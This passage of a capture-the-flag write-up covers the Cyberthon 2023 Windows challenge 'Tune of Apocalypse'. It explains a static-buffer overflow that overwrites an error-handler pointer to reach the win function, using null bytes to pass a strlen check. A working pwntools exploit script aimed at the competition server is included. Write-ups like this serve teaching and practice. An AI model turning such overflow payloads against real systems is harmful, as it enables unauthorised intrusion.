 ```py

    password = os.popen(f"./seed/solve {seed}").read().strip()
    print(password)

    p.sendline(password.encode())

    p.interactive()


if __name__ == "__main__":
    main()
```

---

<h1 id="tune-of-apocalypse">Tune of Apocalypse</h1>

This is a Windows ret2win challenge. Most of the challenge is actually just red
herring/serves to make the challenge more approachable but tedious. We can use
IDA to analyse the executable.

In essence, the vulnerability is a buffer overflow in static region that allows
us to modify a reference to a error handler function, and change it to the win
function. There's only 1 `strlen` check to pass which we can easily bypass
using null bytes.

```py
from pwn import *

p = remote("chals.f.cyberthon23.ctf.sg", 43010)

secret_notes = [0x106, 0x19F, 0x14A, 0x126, 0x188, 0x15D, 0x1B8, 0x1B8, 0x115, 0x115, 0x172, 0x1D2, 0x188, 0x172, 0x188]

inputs = [9, 1, 3, 5, 6, 8, 10, 10, 2, 2, 11, 7, 7, 8, 8]

# p.sendlineafter(b"Choice:", b"1")
# for i in inputs:
#     p.sendlineafter(b"Choice:", str(i).encode())
#
# p.sendlineafter(b"Choice:", b"0")

p.sendlineafter(b"Choice:", b"3")

p.sendlineafter(b"Name:", b"asdf")

payload = b"\x00"*200 + b"\xec\x1c"
p.sendlineafter(b"Description:", payload)

p.sendlineafter(b"Choice:", b"3")

p.sendlineafter(b"Name:", b"a"*30)

print(p.clean())
```

---